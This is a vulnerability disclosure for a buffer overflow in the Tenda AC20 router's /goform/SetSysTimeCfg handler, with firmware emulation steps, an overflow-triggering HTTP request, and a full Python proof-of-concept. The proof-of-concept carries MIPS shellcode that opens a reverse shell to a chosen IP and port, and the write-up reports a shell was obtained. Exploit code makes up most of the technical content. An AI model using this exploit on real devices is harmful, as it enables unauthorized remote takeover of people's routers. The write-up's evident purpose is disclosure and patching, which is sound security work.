







# **Tenda AC20 router has a buffer overflow vulnerability**

## **Basic Information**

Vulnerability manufacturer: Shenzhen Jixiang Tengda Technology Co., Ltd

Manufacturer's official website: https://www.tenda.com.cn/ 

Affected object type: Router

Affected product: AC20

Affected product version: <= V16.03.08.12 (latest)

## **1. Overview of vulnerabilities**

A buffer overflow vulnerability was discovered on the Tenda AC20 router, which could be triggered by an attacker sending a carefully constructed http post packet to the request path /goform/SetSysTimeCfg, resulting in a denial of service attack or even RCE

## **2. Vulnerability Details**

Download the latest firmware from the official website [AC20 Upgrade Software_Tenda Official Website](https://www.tenda.com.cn/material/show/3264)

It can be unpacked through this website https://zhiwanyuzhou.com/multiple_analyse/firmware/

Locate the /bin/httpd file and simulate it with the command sudo chroot ./ ./qemu-mipsel-static ./bin/httpd

 

 

 

 

After the environment is started, the vulnerability location is located sub_4960C4 through IDA

It was found that the timeZone was taken as a value and then copied to the s_1 array, and there was a buffer overflow vulnerability due to the lack of checking the length

 

 

Precondition, you need to request the path SetSysTimeCfg and the timeType type is sync

 

 

 Contract testing

POST /goform/SetSysTimeCfg HTTP/1.1

Host: 192.168.102.145

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Accept: application/json, text/javascript, */*; q=0.01

X-Requested-With: XMLHttpRequest

Referer: http://192.168.102.145/main.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Connection: keep-alive

Content-Type: application/x-www-form-urlencoded

Content-Length: 122

 

timeType=sync&timeZone=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaauuuuuuuu&timePeriod=11&ntpServer=22

 

 

 It was found that there was a segregation that did cause the overflow

● Vulnerability POC or EXP

 

 

```py
import requests

from gt import *

import sys

con("mips")

payload = cyclic(64)

shellcode = asm('''

  slti $a0, $zero, 0xFFFF

  li $v0, 4006

  syscall 0x42424

  li $t4, 0xFFFFFFFD

  not $a0, $t4

  li $v0, 4006

  syscall 0x42424

 

  li $t4, 0xFFFFFFFD

  not $a0, $t4

  not $a1, $t4

  slti $a2, $zero, 0xFFFF

  li $v0, 4183

  syscall 0x42424

 

  andi $a0, $v0, 0xFFFF

  li $v0, 4041

  syscall 0x42424

  li $v0, 4041

  syscall 0x42424


  lui $a1, 0xB821 # Port: 8888

  ori $a1, 0xFF01

  addi $a1, $a1, 0x0101

  sw $a1, -8($sp)

  li $a1, 0x9166a8c0 # IP: 192.168.102.145

  sw $a1, -4($sp)

  addi $a1, $sp, -8

 

  li $t4, 0xFFFFFFEF

  not $a2, $t4

  li $v0, 4170

  syscall 0x42424

 

  lui $t0, 0x6962

  ori $t0, $t0,0x2f2f

  sw $t0, -20($sp)

 

  lui $t0, 0x6873

  ori $t0, 0x2f6e

  sw $t0, -16($sp)

 

  slti $a3, $zero, 0xFFFF

  sw $a3, -12($sp)

  sw $a3, -4($sp)

 

  addi $a0, $sp, -20

  addi $t0, $sp, -20

  sw $t0, -8($sp)

  addi $a1, $sp, -8

 

  addiu $sp, $sp, -20

 

  slti $a2, $zero, 0xFFFF

  li $v0, 4011

  syscall 0x42424

''')

 

payload += p32(0x407ffdb0) 

payload += shellcode

Head = {'Referer': 'https://www.tenda.com.cn/}
url = "http://192.168.102.145/goform/SetSysTimeCfg"

Data = {"timeType":"sync","timePeriod":"11","ntpServer":"22","timeZone":payload}

response = requests.post(url,headers=Head,data=Data)

 

print(response.text)

print(response)
```

 

 

 Successfully exploited vulnerabilities to bounce back shells

 

### **Video Case Address**

https://pan.baidu.com/s/1Umul3lQ9eQjtFM7Kcre6CQ?pwd=jbea

## **3. Impact of vulnerabilities**

An attacker could exploit this vulnerability to cause a buffer overflow or even execute arbitrary commands to escalate privileges

## **4. Repair plan**

\1. Contact relevant vendors to obtain security patches and fix vulnerabilities in a timely manner

\2. Contact the relevant security vendor to update the security blocking policy in a timely manner

\3. Perform a temporary security check on the interface parameters

‍